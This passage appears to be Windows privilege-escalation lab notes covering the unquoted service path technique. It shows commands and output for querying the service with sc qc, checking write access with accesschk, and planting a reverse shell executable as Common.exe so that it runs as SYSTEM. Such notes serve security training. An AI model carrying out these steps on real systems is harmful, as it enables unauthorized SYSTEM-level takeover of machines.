```bash
```



### **Unquoted Service Path**


- Query the service and note -:
	- `SERVICE_START_NAME` parameter runs with SYSTEM privileges.
	- `BINARY_PATH_NAME` is unquoted and contains spaces.


```powershell
C:\PrivEsc>sc qc unquotedsvc
# sc qc <SERVICE>
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```


- Using `accesschk.exe`, note that the `BUILTIN\Users` group is allowed to write to the unquoted service directory:


```powershell
C:\PrivEsc>C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

# C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users # <= Confirmed
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```


- Copy your reverse shell executable created to the directory and rename it the first name of the next directory (`Common.exe`)



```powershell
C:\PrivEsc>copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

# copy <REVERSE_SHELL_PATH.exe> "<SERVICE_PATH.exe>"

        1 file(s) copied.
```
